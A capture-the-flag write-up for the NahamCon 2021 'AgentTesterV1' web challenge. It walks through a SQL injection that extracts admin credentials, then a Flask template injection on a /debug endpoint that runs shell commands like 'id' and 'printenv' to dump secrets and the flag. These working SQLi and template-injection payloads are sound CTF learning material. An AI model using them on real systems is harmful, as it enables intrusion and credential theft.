 ```yaml
---
description: AgentTesterV1 Nahamcon 2021 challenge write up.
---
```


# AgentTesterV1

The code of the aplication was provided and looking at the code we can see that is vulnerable to sql injection (Later i discovered that this wasnt really necessary because the tables names can be checked in the aplication files but hey, is cool):

`SELECT userAgent, url FROM uAgents WHERE userAgent = '%s'`


Lets get the tables names:
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' --`
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' and name!="uAgents"--`

Table names:
- uAgents
- user

The user table is what we want here i guess. Lets try this:

`' UNION SELECT username, password FROM user --`

And the page gave us: `Testing User-Agent: admin in url: *)(@skdnaj238374834**__**=` cool! So we now have the admin credentials:

```
admin:*)(@skdnaj238374834**__**=
```

Also we can use whatever endpoint and user agent we want:

`' UNION SELECT 'AgentTester v1','https://hookb.in/oXYJDgO6yzS1mmLaRZax' --`


Next, i noticed that the endpoint `/debug` exists (The challenge provided the code but im silly and didnt take a look until now). Looking at the app code, i noticed that it ask for a specific session ID, probably the admin user. I got the admin user so was not too hard to get access to it using Postman (Just copied the header `Cookie` from my browser to Postman). 

After some research, looks like we can inject flask under the key `code` with a POST form to the `/debug` endpoint. For example:

```
code:{{config}}

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '1L5&wnIh4!Rz6Ufo^iY?aRyV2qXM+kz5', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'auth', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///DB/db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Funny. What about this:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

uid=1000(uwsgi) gid=0(root) groups=0(root)
```

So we have remote code execution. After some digging i found the flag listing all the envars of the machine:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('printenv').read()}}

BASE_URL=challenge.nahamcon.com KUBERNETES_SERVICE_PORT=443 KUBERNETES_PORT=tcp://10.116.0.1:443 UWSGI_ORIGINAL_PROC_NAME=uwsgi HOSTNAME=agenttester-691977e06298952e-5c9d4d6f8f-ssqhz SHLVL=1 PYTHON_PIP_VERSION=21.0.1 PORT= HOME=/root GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568 _=/usr/local/bin/uwsgi PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/b60e2320d9e8d02348525bd74e871e466afdf77c/get-pip.py KUBERNETES_PORT_443_TCP_ADDR=10.116.0.1 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_PROTO=tcp LANG=C.UTF-8 CHALLENGE_FLAG=flag{fb4a87cfa85cf8c5ab2effedb4ea7006} PYTHON_VERSION=3.8.8 ADMIN_BOT_PASSWORD=*)(@skdnaj238374834**__**= KUBERNETES_SERVICE_PORT_HTTPS=443 KUBERNETES_PORT_443_TCP=tcp://10.116.0.1:443 CHALLENGE_NAME=AgentTester PWD=/app ADMIN_BOT_USER=admin KUBERNETES_SERVICE_HOST=10.116.0.1 PYTHON_GET_PIP_SHA256=c3b81e5d06371e135fb3156dc7d8fd6270735088428c4a9a5ec1f342e2024565 UWSGI_RELOADS=0
```

Flag: `flag{fb4a87cfa85cf8c5ab2effedb4ea7006}`
